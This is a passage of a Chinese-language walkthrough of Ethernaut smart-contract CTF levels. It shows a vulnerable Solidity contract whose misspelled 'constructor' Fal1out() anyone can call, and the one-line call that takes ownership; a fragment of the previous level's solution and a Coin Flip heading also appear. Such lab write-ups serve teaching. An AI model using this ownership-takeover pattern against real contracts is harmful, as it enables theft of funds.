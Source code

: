 > contract.sendTransaction({value:1});  

&emsp;&emsp;智能合约的梗是真他喵的多 哈哈哈哈哈

---

#### 2. Fallout  

> **Target**: Claim ownership of the contract  

&emsp;&emsp;这道题的出题人是真的欠揍，马德，完全是考眼力：  

```javascript
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract Fallout is Ownable {

  mapping (address => uint) allocations;

  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  function allocate() public payable {
    allocations[msg.sender] += msg.value;
  }

  function sendAllocation(address allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(this.balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```
&emsp;&emsp;看到没有第9行正儿八经的写着**constructor** 喵？定睛一看构造个瓜皮的函数，**Fal1out()** 这里不要被骗了，直接调用就可以了。  

> contract.Fal1out();  

---

#### 3. Coin Flip  

---
